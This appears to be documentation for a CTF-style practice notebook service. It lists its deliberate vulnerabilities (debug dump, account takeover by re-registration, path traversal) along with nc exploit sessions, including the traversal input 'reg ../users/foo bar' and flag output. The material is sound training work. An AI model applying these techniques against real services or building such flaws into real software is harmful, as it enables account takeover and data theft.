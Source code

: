 Service documentation
======================
This is the place to keep important documentation details about your service.

# Vulnerabilities

Please keep track of your intended vulnerabilities here:

## Debug enabled

- Category: Misconfiguration
- Difficulty: Easy

When `self.debug` is set to `True`, the `dump` command will list all users and their notes. 

## Account Takeover

- Category: Authentication
- Difficulty: Medium

When registering a new user, the service does not check if the user already exists and simply overwrites the password (`self.users[reg_user] = reg_pw`). The list of existing users can be obtained with the `user` command.

## Arbitrary Read or Write (Account Takeover v2)

- Category: Path traversal
- Difficulty: Medium

The `FilesystemDict` uses user-supplied input when constructing the file paths. This could be used to write JSON-encoded data to any files. 

The impact has to be further analyzed. It at least leads to another account takeover (overwrite the password for other users, i.e. using `reg ../users/foo bar`).

*Note:* Without a proper impact analysis, we would classify this issue as a `unintended` vulnerability. Please try to keep such issues to a minimum and document them nonetheless.

# Exploits

For each vulnerability, you should have a working example exploit ready! 

## Debug enabled:

Connect to the service and run `dump`:

```
gehaxelt@LagTop ~> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> dump
Users:
test:test
foo:bar
     Note 0:acbd18db4cc2f85cedef654fccc4a4d8:foo
     Note 1:37b51d194a7513e45b56f6524f2d51f2:bar
     Note 2:acbd18db4cc2f85cedef654fccc4a4d8:foo
4FOBMO10HWLC:EDPWN79U2KNL
I4K3P0SK3PST:CK5FALD39Y0S
B70YKMW72KUR:79Y5IM7FD7O8
GB7QC0DKYXPS:89TY8HI6OCBA
NXPTITQUSN2M:WYIWSGRZNKTX
6699DPYPAQDL:7IFEPP3P3LBI
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
MPG81XWFHNE8:H8KP8VECBQOR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
QN973IXF53HT:9BUVY6JNMGIW
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
UI2WTY7E7KC5:87SB830QHVX3
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XXPLIXZ9ZN1Q:F88L3J4GA2LE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
N43LU1348D19:YWT9TFCSVA2T
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
3DP6COPE6GMX:OI9437MJORZR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
I8ZUNTWZ0Y0Q:B3AI1LN9SAAE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
JUACZ5J3D475:5RNZ1ETOFBS6
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
KGFZNGHROLUS:05826L6X39XM
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
FV9VM13K8MGF:POUIW5CM6PY2
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XAHOKR4QD63O:VENSD82XO1XM
     Note 0:199480a3640248d5ea679b596d91c350:SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

The flags are in the output.

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write (Account Takeover v2)

Connect to the service and list all users:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> users
User 0: 0WTC89S0Y67Y
User 1: HWG5RBYEQX3Y
User 2: XK2UJAC7KWMB
User 3: CF8TFV304DMO
User 4: E9XAV2ACHRY0
User 5: SHBSC21EC963
User 6: AC1MSHQS7HE8
User 7: OVTN3ZXRO7X0
User 8: IM03X7OWDEV7
User 9: NQST4C3ABWLD
User 10: VS7ZY06LELHI
User 11: WFS6JGH8DDYO
User 12: WBAYX5MLDMIG
User 13: H4YXGNP9D3GS
User 14: S735UCC1O7FE
User 15: foo
```

Use the username(s) and the `reg` command to set a new password by abusing the path traversal bug:

```
gehaxelt@LagTop ~/C/A/e/service-example (cleanup)> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> reg ../users/foo bar
User successfully registered
> log foo bar
Successfully logged in!
> list
Note 0: 581f1b0f439b22d1d2c617d1e8963505
> get 581f1b0f439b22d1d2c617d1e8963505
ENOTESTFLAG
```